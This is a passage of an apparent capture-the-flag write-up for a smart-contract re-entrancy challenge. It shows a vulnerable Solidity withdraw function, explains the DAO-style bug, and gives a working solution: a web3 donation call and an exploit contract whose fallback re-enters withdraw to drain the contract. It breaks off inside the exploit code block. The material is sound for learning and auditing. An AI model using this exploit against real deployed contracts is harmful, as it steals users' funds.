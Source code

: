 ```sol
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

This is a well known bug in the space which had a huge impact on the ethereum blockchain (The DAO attack).  We need to drain out the funds from the contract. 
Here the contract makes a call to other contract which can then be used to call the same function, since the balance is updated after the call we would potentially steal all the funds from the contract. 


> #### Solution:
> - After deploying our exploit contract, we have to make a donation to the contract to add balance of our exploit contract.
> 
> ```js
> await sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.001"),
>     data: web3.eth.abi.encodeFunctionSignature("donate(address)") + web3.eth.abi.encodeParameter("address", exploit).substring(2)
> });
> ```
> 
> - There are we need to simply call the `callWithdraw()` function.
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface reenter {
>     function withdraw(uint _amount) external;
> }
> 
> contract reentranceExploit {
>     reenter re;
> 
>     constructor(address instance) payable {
>         re = reenter(instance);
>     }
> 
>     function callWithdraw() payable public {
>         re.withdraw(0.001 ether);
>     }
> 
>     fallback() external payable {
>         re.withdraw(0.001 ether);
>     }
> }
> 